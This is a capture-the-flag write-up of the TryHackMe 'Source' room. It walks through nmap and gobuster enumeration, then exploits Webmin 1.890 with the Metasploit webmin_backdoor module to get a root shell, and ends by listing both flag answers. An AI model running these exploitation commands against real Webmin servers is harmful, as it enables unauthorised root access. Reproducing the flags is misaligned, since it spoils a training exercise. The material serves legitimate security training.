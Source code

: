 
# TryHackMe - Source 

##  Overview
- **Room:** Source  
- **Difficulty:** Easy  
- **Tags:** Enumeration, Webmin, Exploitation, Privilege Escalation

This room focuses on exploiting a vulnerable Webmin service to gain root access.

---

##  Table of Contents
1. [Enumeration](#-enumeration)
2. [Web Enumeration](#-web-enumeration)
3. [Exploitation](#-exploitation)
4. [Post-Exploitation](#-post-exploitation)
5. [Flags](#-flags)
6. [Conclusion](#-conclusion)

---

##  Enumeration

### Nmap Scan
We start by scanning the target with **nmap**:

```bash
sudo nmap -sC -sV -Pn -p- {target_IP}
```

- **-sC**: Run default scripts  
- **-sV**: Detect service versions  

**Results:**

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
```

 Open ports:  
- **22/tcp** → SSH  
- **10000/tcp** → Webmin  

---

##  Web Enumeration
Visiting `https://{target_IP}:10000` revealed a **Webmin login page**.

- Default credentials were tested → **failed**  
- Directory enumeration with **gobuster** produced no useful results:

```bash
gobuster dir -u https://{target_IP}:10000 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

---

##  Exploitation

### Searchsploit
We check for Webmin exploits:

```bash
searchsploit webmin
```

Several **RCE exploits** were available. Since the Webmin version is vulnerable, we proceed with **Metasploit**.

### Metasploit
Start `msfconsole` and search for Webmin exploits:

```bash
msf6 > search webmin
```

We use the **Webmin backdoor exploit**:

```bash
use exploit/linux/http/webmin_backdoor
set RHOST {target_IP}
set RPORT 10000
set LHOST tun0
set SSL true
exploit
```

 This immediately provided a **root shell**.

---

##  Post-Exploitation

To upgrade the shell to a stable TTY:

```bash

```

We now have a fully interactive **root shell**.

---

##  Flags

Retrieve flags from the machine:

```text
user.txt → THM{SUPPLY_CHAIN_COMPROMISE}
root.txt → THM{UPDATE_YOUR_INSTALL}
```

---

##  Conclusion

- Enumerated open ports with `nmap`  
- Identified Webmin service on port 10000  
- Verified vulnerable Webmin version  
- Exploited with **Metasploit `webmin_backdoor`**  
- Achieved **root access** and captured flags  

This room is ideal for practicing **service enumeration** and **Metasploit exploitation**.
